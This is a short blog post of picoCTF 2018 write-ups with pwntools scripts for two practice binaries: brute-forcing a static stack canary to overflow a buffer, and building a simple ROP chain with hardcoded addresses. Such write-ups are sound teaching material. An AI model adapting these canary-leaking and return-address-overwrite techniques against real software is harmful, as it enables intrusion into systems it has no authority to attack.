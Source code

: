 ```yaml
---
layout: post
title: "picoctf 2018 writeups"
date: 2018-10-18 00:42:00 -0500
published: true
---
```


### buffer_overflow_3

Binary with a handrolled, static canary. So, we're leaking it byte-by-byte.

```
from pwn import *
import sys

for c in range(0,256):
        p = process("/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf/vuln", cwd="/problems/buffer-overflow-3_3_6bcc2aa22b2b7a4a7e3ca6b2e1194faf")
        p.sendline("36")
        p.sendline( "A"*32 + '\x49\x48\x77\x6a' + chr(c) )
        if "Flag" in p.recv(): print "good: %s" % hex(c)
# p.interactive()

# and our one-liner is
# python -c 'from pwn import *; print "100\n" + "A"*32 + "\x49\x48\x77\x6a" + "\xeb\x86\x04\x08" * 5' | ./vuln
```

### rop

Simple ropchain satisfying a few constraints.

```
from pwn import *
path = "/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47"
# p = process(path+"/rop", cwd=path)
payload =  "A"*28 + \
	p32(0x080485cb) + \
	p32(0x080485d8) + \
	p32(0x0804862b) + \
	p32(0xbaaaaaad) + \
	p32(0xdeadbaad)
print payload
```
